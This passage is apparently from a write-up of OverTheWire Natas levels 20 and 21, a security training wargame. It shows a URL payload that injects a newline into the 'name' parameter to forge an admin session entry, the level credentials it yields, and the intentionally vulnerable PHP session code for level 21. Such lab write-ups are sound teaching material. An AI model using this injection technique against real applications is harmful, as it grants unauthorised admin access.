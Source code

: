 Basically, it is writing each *$key* and *$value* pair with a new line. So, as we need a key/value pair of **admin:1**, we could inject our username followed by a new line character and the **admin:1**. 

Here, we just need to send the following URL :

```text
http://natas20.natas.labs.overthewire.org/index.php?debug&name=admin%0Aadmin%201
```

Then, you'll get the result !

```text
Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

## Natas 21 Solution

**URL :** [http://natas21.natas.labs.overthewire.org](http://natas21.natas.labs.overthewire.org) <br/>
**Credentials :** *natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ*

Here is the PHP code for this challenge (first and second page):

```php
<? 
// Page 01
// http://natas21.natas.labs.overthewire.org/
function print_credentials() { 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) { 
    print "You are an admin. The credentials for the next level are:<br>"; 
    print "<pre>Username: natas22\n"; 
    print "Password: <censored></pre>"; 
    } else { 
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22."; 
    } 
} 

session_start(); 
print_credentials(); 

?> 
```

And the code from the second page :

```php
// Page 02
// http://natas21-experimenter.natas.labs.overthewire.org/
<?   
session_start(); 

// if update was submitted, store it 
if(array_key_exists("submit", $_REQUEST)) { 
    foreach($_REQUEST as $key => $val) { 
    $_SESSION[$key] = $val; 
    } 
} 

if(array_key_exists("debug", $_GET)) { 
    print "[DEBUG] Session contents:<br>"; 
    print_r($_SESSION); 
} 

// only allow these keys 
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow"); 
```